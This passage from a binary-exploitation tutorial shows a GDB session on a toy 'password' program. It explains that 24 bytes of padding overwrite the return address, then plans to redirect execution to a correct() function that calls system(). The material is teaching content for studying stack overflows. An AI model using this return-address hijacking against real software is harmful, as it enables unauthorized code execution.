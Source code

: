 ```sh
0x00007fffffffdfb8│+0x0000: "BBBBBBBB"   ← $rsp
0x00007fffffffdfc0│+0x0008: 0x00007fffffffe000  →  0x0000000000000000
0x00007fffffffdfc8│+0x0010: 0x0000000100000000
0x00007fffffffdfd0│+0x0018: 0x0000555555555194  →  <main+0> push rbp
0x00007fffffffdfd8│+0x0020: 0x00007ffff7e157cf  →  <init_cacheinfo+287> mov rbp, rax
0x00007fffffffdfe0│+0x0028: 0x0000000000000000
0x00007fffffffdfe8│+0x0030: 0x546dfa454d39a707
0x00007fffffffdff0│+0x0038: 0x0000555555555090  →  <_start+0> xor ebp, ebp
──────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
   0x5555555551fb <main+103>       call   0x555555555040 <puts@plt>
   0x555555555200 <main+108>       mov    eax, 0x0
   0x555555555205 <main+113>       leave
 → 0x555555555206 <main+114>       ret
[!] Cannot disassemble from $PC
──────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "password", stopped 0x555555555206 in main (), reason: SIGSEGV
────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x555555555206 → main()
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  
```

Now we know that we can set the return address to whatever value we want by simply replacing the B's with the value that we want to set the return address to. We have obtained complete control over the return address.

Here, we used a brute-force approach in order to figure out that we need exactly 24 bytes of data before we can type in the return address. There is a much faster method that we can use to figure out the number of bytes that we need, which we'll go over in the next course.

## Returning to Another Function

We can look at the source code and easily see what the correct password is, but what if we were in a situation where we had no idea what the correct password was? In the real world, most passwords are [hashed](https://www.wired.com/2016/06/hacker-lexicon-password-hashing/) with an unbreakable cryptographic hashing algorithm when they are stored. If we were in such a scenario where we did not know the correct password, how could we call the `correct()` function?

Well, let's look at the facts. We know that we can change the return address to any value that we want by sending 24 bytes of useless data followed by the value we want to set the return address to. What would happen if we were to set the return address equal to the address of `correct()`? Let's find out.

We first need to figure out what the address of `correct()` actually is. This is pretty easy to do while ASLR is disabled; all we have to do is use the `disas correct` command in GDB. It is more complicated to do this step when ASLR is enabled because ASLR changes the addresses every time you run the program, so we will discuss how to deal with ASLR in a later course.

```sh
gef➤  disas correct
Dump of assembler code for function correct:
   0x0000555555555175 <+0>:     push   rbp
   0x0000555555555176 <+1>:     mov    rbp,rsp
   0x0000555555555179 <+4>:     lea    rdi,[rip+0xe88]        # 0x555555556008
   0x0000555555555180 <+11>:    call   0x555555555040 <puts@plt>
   0x0000555555555185 <+16>:    lea    rdi,[rip+0xea1]        # 0x55555555602d
   0x000055555555518c <+23>:    call   0x555555555050 <system@plt>
   0x0000555555555191 <+28>:    nop
   0x0000555555555192 <+29>:    pop    rbp
   0x0000555555555193 <+30>:    ret
End of assembler dump.
```
